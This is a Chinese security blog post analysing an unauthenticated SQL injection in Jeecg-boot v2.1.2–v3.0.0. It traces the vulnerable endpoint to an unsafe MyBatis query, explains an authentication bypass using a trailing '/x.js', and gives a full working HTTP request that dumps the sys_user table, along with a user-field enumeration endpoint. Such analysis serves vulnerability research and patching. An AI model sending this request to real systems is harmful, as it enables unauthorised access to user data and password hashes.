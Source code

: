 #  Jeecg-boot v2.1.2-v3.0.0 SQL注入漏洞+敏感接口分析  
原创 chobits02  C4安全   2025-07-21 06:21  
  
前言  
#### 短期攻防结束了，公司几个系统的漏洞就给到了开发的手里，仔细一看都是用相同开源框架二次开发而来的，版本都比较老了，都是基于Jeecg-boot二次开发  
#### 该系统在v2.1.2-v3.0.0版本中存在SQL注入漏洞，还有其他敏感接口，下面就分析看下  
#### Jeecg-boot是北京国炬信息技术有限公司开发的低代码开发框架  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVycrdsFdBNMwuZWg7hibXCmMGPklHq9yicyG4W1kYDoAAAPpuHCQPMTXQQ/640?wx_fmt=png&from=appmsg "")  
#### 框架只是个后端Java框架，前端都是不一样的，唯一能判断的特征可能是系统自带的验证码接口，如下  
```
/api/sys/randomImage/一串数字
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVylgTcQBo9ltRjJczK6v7Z9QicCWFGwIWGiaRb4X0XKE6ibj1r7USy7gaNA/640?wx_fmt=png&from=appmsg "")  
  
  
然后直接来到漏洞接口地址  
```
/api/sys/ng-alain/getDictItemsByTable
```  
  
方法位于  
NgAlainController当中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVyQtLE4Y1GWBNJ7nrEiaIDIibAbic3QvhLMlN3ceOAgWOqHh0q2S7TFCPHw/640?wx_fmt=png&from=appmsg "")  
```
@RequestMapping(value = "/getDictItemsByTable/{table}/{key}/{value}", method = RequestMethod.GET)
public Object getDictItemsByTable(@PathVariable String table,@PathVariable String key,@PathVariable String value) {    
  return this.ngAlainService.getDictByTable(table,key,value);
}
```  
  
然后根据service层追踪到mapper层  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVyJyKPEnc8WShbxDL9cqgzYzeIUw1kxD4ZCga8x5ws5wqT62mjaCQwLw/640?wx_fmt=png&from=appmsg "")  
  
可以看到参数直接可以指定查询的数据库  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVychp9ceM1UPdicSsFicdVKXG4LDaprRg8yEdiaJlPOBv0HR0Dpp9hywxmw/640?wx_fmt=png&from=appmsg "")  
```
@Select("select ${key} as \"label\",${value} as \"value\" from ${table}")
```  
  
这里key和value可以指定任意数据库的两个字段，然后table可以指定任意数据库  
  
不过直接请求这个接口是需要鉴权的，这就要提到接口放行的配置了  
  
  
可以注意到这个接口传参是以  
/getDictItemsByTable/{table}/{key}/{value}  
  
通过斜杠传参，而看系统放行配置，存在匹配任意URL，只要结尾是文件格式的即可放行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVysPc7qm0jml6zxbtbG1q2MibVVpWwLzXuAgUh0IdE7f68DfibJCPJJXow/640?wx_fmt=png&from=appmsg "")  
  
两者结合一下就能造成未授权的SQL注入漏洞了，一般都是查sys_user这个自带表  
```
GET /api/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js HTTP/1.1
Host: 
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Fetch-Dest: empty
Accept: application/json, text/plain, */*
Sec-Fetch-Mode: cors
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVy7YWCW3KZAIV4Ioib1wlobbekaqEoyzkTnSkjIu05Wp0CUAnV8MMCDrQ/640?wx_fmt=png&from=appmsg "")  
  
不过你懂得，这些密码是带盐值加密的MD5，逆向推出明文需要先生成数据库之后碰撞，而系统里面的密码是这么个加密逻辑：  
```
PasswordUtil.encrypt(username, password, salt);
```  
  
通过用户名、明文密码、盐值三者加密而来，所以一般想破解你还要下载框架自己加密一个字典，还挺麻烦的  
  
  
然后下面一个接口是  
/api/sys/user/checkOnlyUser  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVyvicWyKKGP5xlIHlxa5CNiccMTp5rDTKOXsfdib1oYqjbahDSroATYNMBw/640?wx_fmt=png&from=appmsg "")  
  
同样无需鉴权，很简单用QueryWrapper查用户  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVyL8xvEfjMB4UULYWjEmlVPQmf825nWicg2N7YF5SBFxVVVeCj2HFMfLw/640?wx_fmt=png&from=appmsg "")  
  
只要是SysUser里的字段，你都能查询是否有对应的用户有这个字段的值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVyxY4yKbheUXsHbOeUtqvmniaGEGULYatvzQvXbWVzcNlN6frBAPJPg3Q/640?wx_fmt=png&from=appmsg "")  
  
username、realname、password、salt、email等等，都能爆破是否存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVyYo7qzDetWgVqGibRXXZMoz3vicPibXhInC0z6ticHDR2sJ2zgDTfFciaZXg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSRbB9By9wT89jdfDVtIGVyZpFRZNks09rlnDicCbiat89W5vjXajSricRrbhUnhRQuLAsfx14EGeeQg/640?wx_fmt=png&from=appmsg "")  
  
但是用处不大  
  
  
结语  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
